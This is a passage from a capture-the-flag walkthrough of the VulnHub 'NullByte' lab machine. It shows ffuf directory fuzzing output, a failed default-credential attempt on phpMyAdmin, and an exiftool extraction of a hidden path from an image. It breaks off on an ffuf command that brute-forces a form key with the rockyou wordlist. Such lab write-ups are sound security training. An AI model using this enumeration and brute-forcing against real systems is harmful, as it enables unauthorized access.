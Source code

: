 			/'___\  /'___\           /'___\       
		   /\ \__/ /\ \__/  __  __  /\ \__/       
		   \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
			\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
			 \ \_\   \ \_\  \ \____/  \ \_\       
			  \/_/    \/_/   \/___/    \/_/       

		   v1.3.1 Kali Exclusive <3
	________________________________________________

	 :: Method           : GET
	 :: URL              : http://192.168.110.11/uploads/FUZZ
	 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
	 :: Extensions       : .html .php .txt 
	 :: Follow redirects : false
	 :: Calibration      : false
	 :: Timeout          : 10
	 :: Threads          : 40
	 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
	 :: Filter           : Response status: 403
	________________________________________________
	index.html              [Status: 200, Size: 113, Words: 6, Lines: 7]
	:: Progress: [18460/18460] :: Job [1/1] :: 215 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
	```
	- `uploads` is a static html page, not a directory
3. Tried some default creds on `phpmyadmin`, failed
4. Only clue we have is the image, download the image
	```
	┌──(root💀kali)-[~/vulnHub/NullByte/192.168.110.11/loot/http]
	└─# wget -q http://192.168.110.11/main.gif
	```
5. Detect any hidden text/files
	```
	┌──(root💀kali)-[~/vulnHub/NullByte/192.168.110.11/loot/http]
	└─# exiftool main.gif | grep -i comment
	Comment                         : P-): kzMb5nVYJw
	```
	- `kzMb5nVYJw`
6. Proceed to `/kzMb5nVYJw`
	![](images/Pasted%20image%2020220203204615.png)
	- "password ain't that complex"
7. Bruteforce
	```
	┌──(root💀kali)-[~/vulnHub/NullByte]
	└─# ffuf -d "key=FUZZ" -u http://192.168.110.11/kzMb5nVYJw/index.php -H "Content-Type: application/x-www-form-urlencoded" -w /usr/share/wordlists/rockyou.txt -fw 19
